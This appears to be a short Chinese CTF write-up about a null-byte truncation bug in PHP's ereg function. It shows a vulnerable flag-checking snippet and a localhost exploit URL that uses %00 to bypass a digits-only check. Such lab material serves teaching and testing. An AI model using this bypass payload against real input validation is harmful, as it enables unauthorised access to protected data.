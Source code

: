 # ereg正则%00截断

```plain

<?php
$flag = "flag";
if (isset ($_GET['nctf'])) {
if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>

```



ereg函数遇到%00会认为函数执行完毕


[http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu](http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu)





